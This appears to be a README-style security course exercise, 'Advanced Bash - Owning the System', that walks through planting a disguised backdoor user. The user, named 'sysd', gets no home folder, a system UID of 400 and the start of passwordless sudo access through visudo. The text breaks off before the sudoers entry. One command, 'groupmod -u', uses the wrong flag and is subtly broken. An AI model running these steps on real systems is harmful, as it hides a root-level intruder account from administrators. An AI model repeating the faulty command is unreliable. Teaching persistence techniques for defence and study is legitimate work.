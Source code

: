 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo

After executing the above command, you will be brought into the sudoers file to edit as seen in photo below.
![see photo](/images/picture1.png)

Then we can add the following code in user privilege specification after root entry: